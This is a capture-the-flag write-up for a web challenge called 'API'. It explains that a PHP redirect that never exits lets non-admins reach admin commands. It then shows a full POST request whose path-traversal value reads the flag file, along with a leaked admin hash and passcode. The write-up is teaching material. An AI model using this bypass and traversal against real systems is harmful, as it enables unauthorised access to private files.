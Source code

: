 ```yaml
---
description: Logic error in user authentication
---
```


# API

## Description

Easy and simple API

`https://api.chal.acsc.asia`

{% file src="../../.gitbook/assets/api.tar.gz\_e8eeed86d26a37a1b233b7e8b0e7f0ac.gz" caption="Challenge Files" %}

## Solution

Sample API request:

```text
id=test&pw=test&c=i
```

The `c` parameter is used to decide the first command - signin, signup or signout.

```php
function main($acc){
    gen_user_db($acc);
    gen_pass_db();
    header("Content-Type: application/json");
    $user = new User($acc);
    $cmd = $_REQUEST['c'];
    usleep(500000);
    switch($cmd){
        case 'i':
            if (!$user->signin())
                echo "Wrong Username or Password.\n\n";
            break;
        case 'u':
            if ($user->signup())
                echo "Register Success!\n\n";
            else
                echo "Failed to join\n\n";
            break;
        case 'o':
            if ($user->signout())
                echo "Logout Success!\n\n";
            else
                echo "Failed to sign out..\n\n";
            break;
    }
    challenge($user);
}
```

The user is checked for `is_admin()`, then the `c2` parameter is used to decide a second admin command. If `is_admin()` is false, then `redirect()` is called.

```php
function challenge($obj){
    if ($obj->is_login()) {
        $admin = new Admin();
        if (!$admin->is_admin()) $admin->redirect('/api.php?#access denied');
        $cmd = $_REQUEST['c2'];
        if ($cmd) {
            switch($cmd){
                case "gu":
                    echo json_encode($admin->export_users());
                    break;
                case "gd":
                    echo json_encode($admin->export_db($_REQUEST['db']));
                    break;
                case "gp":
                    echo json_encode($admin->get_pass());
                    break;
                case "cf":
                    echo json_encode($admin->compare_flag($_REQUEST['flag']));
                    break;
            }
        }
    }
}
```

However, `redirect()` does not actually terminate the PHP script. It simply prints some HTML output. The code execution continues, and the `c2` parameter is always processed.

```php
public function redirect($url, $msg=''){
    $con = "<script type='text/javascript'>".PHP_EOL;
    if ($msg) $con .= "\talert('%s');".PHP_EOL;
    $con .= "\tlocation.href = '%s';".PHP_EOL;
    $con .= "</script>".PHP_EOL;
    header("location: ".$url);
    if ($msg) printf($con, $msg, $url);
    else printf($con, $url);
}
```

Now, we need the passcode in order to perform the admin functions. We can access `/lib/db/user.db` and `/lib/db/passcode.db` directly from the server.

The admin account is

```text
Pang|c307cae832059f15e52cc5e6a26a2eb3ae7173e6|1
```

The passcode is

```text
:<vNk
```

The `export_db` function gets the contents of a file.

```php
public function export_db($file){
    if ($this->is_pass_correct()) {
        $path = dirname(__FILE__).DIRECTORY_SEPARATOR;
        $path .= "db".DIRECTORY_SEPARATOR;
        $path .= $file;
        $data = file_get_contents($path);
        $data = explode(',', $data);
        $arr = [];
        for($i = 0; $i < count($data); $i++){
            $arr[] = explode('|', $data[$i]);
        }
        return $arr;
    }else 
        return "The passcode does not equal with your input.";
}
```

`$file` is user-controlled, so we can simply do a path traversal to get the flag:

```http
POST /api.php HTTP/2
Host: api.chal.acsc.asia

...

id=Abcabcabc&pw=Abcabcabc&c=i&c2=gd&pas=:<vNk&db=../../../../../flag
```

![](../../.gitbook/assets/73640cbd692c41e9b92a125dbc749989.png)

The flag is `ACSC{it_is_hard_to_name_a_flag...isn't_it?}`.

